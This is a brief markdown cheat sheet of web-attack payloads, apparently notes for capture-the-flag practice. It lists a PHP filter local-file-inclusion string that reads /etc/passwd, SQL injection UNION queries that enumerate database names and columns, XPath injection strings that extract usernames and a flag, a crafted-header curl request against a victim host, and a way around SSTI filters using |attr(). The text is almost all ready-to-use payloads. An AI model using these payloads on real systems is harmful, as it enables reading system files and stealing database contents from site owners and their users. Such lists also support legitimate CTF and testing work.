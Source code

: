 ## Local File Inclution

- `?file=php://filter/convert.base64-encode/resource=/etc/passwd`

## SQLi

- `UNION`

```
' UNION SELECT current_database() as name --
' AND 1=0 UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS --
```

## XPath Injection

```
'or string-length(name(.))=5 or '!'='
' or substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE) or '!'='
'or contains(.,'admin') or'
a' or (substring((//flag)[1], 1, 1)) = 'a
```

## Type juggling with data

- `Playing with header`

  - `curl -H "User-Agent: SUPER SECRET AGENT" http://victim.com/`
  - [code](https://github.com/ByamB4/CCC/blob/master/Web%20Exploitation/src/post-nullbyte.py)

## Server side template injection (SSTI)

- `Python`

  - Filtered `.`, `[]`
  - We can replace `.` with `|attr()` and `[]` with `|attr('__getitem__')(INDEX_or_KEY)`
